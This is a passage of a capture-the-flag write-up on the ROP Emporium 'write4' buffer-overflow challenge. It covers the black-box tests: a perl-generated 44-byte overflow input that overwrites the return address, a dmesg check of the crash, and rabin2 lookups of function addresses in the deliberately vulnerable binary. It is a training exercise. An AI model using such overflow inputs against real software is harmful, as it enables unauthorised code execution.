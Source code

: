 # write4
The challenge is available [here](https://ropemporium.com/challenge/write4.html).

## Black-Box Test
Like in all the challenges so far, we will also conduct a test now to discover the behavior of the software. Afterwards, we will find that the return address index is the same as in the previous challenges.

```
./write432
```
![](./0.png)
```
perl -e 'print "X"x44 . "\xef\xbe\xad\xde"' | ./write432
```
![](./1.png)
```
sudo dmesg -k | tail -2
```
![](./2.png)

## In-depth research
I assume that anyone reading this solution has already read the instructions for the challenge. We will find the address of the `print_file` function in the next command.

```
rabin2 -i write432
```
![](./3.png)

Additionally, we will also find the address of the regular helper function.

```
rabin2 -qs write432 | grep -ve 'imp' -e ' 0 ' -e '_'
```
![](./4.png)


